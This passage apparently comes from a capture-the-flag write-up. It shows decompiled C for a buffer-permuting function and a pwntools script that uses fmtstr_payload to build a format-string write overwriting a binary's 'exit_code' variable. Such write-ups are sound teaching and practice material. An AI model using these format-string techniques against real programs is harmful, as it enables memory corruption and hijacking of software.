 ```c
void sym.permute4(char *arg1) {
    int64_t in_FS_OFFSET;
    char *var_228h;
    undefined8 var_21ch;
    int32_t var_214h;
    char var_210h [520];
    int64_t var_8h;
    
    var_8h = *(int64_t *)(in_FS_OFFSET + 0x28);
    for (var_21ch._0_4_ = 0; (int32_t)var_21ch < 0x98; var_21ch._0_4_ = (int32_t)var_21ch + 1) {
        var_210h[(int32_t)var_21ch] = arg1[(int32_t)var_21ch + 0x168];
    }
    for (var_21ch._4_4_ = 0x98; var_21ch._4_4_ < 0x200; var_21ch._4_4_ = var_21ch._4_4_ + 1) {
        var_210h[var_21ch._4_4_] = arg1[(int64_t)var_21ch._4_4_ + -0x98];
    }
    for (var_214h = 0; var_214h < 0x200; var_214h = var_214h + 1) {
        arg1[var_214h] = var_210h[var_214h];
    }
    if (var_8h != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        sym.imp.__stack_chk_fail();
    }
    return;
}
```

The operation for a `permute[1-8]` function will be the same between binaries.
For example, `permute1` always reverses the entire buffer and `permute4` swaps the start and end of the buffer.

Some of the internals for a `permute[1-8]` function also have minor changes.
For example, the index that separates the start and end used in the swap will change between binaries.

To successfully overwrite `_obj.exit_code`, we need to find an input that, after being manipulated by `permute`, will give us the desired format string payload.

### Payload Generation

The desired final payload is very easy to generate with pwntools.
We can use the built-in `fmtstr_payload` method to create a format string that will perform the write automatically.

The buffer is at offset 8, as it is 0x10 bytes from the top of the stack, and we want to write `code` to `ext.sym['exit_code']`:

```py
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('vuln')
...
io.recvuntil(b"Binary should exit with code ")
code = int(io.recvuntil(b"\n", drop=True))
fmt = fmtstr_payload(8, {exe.sym['exit_code']: code})
```
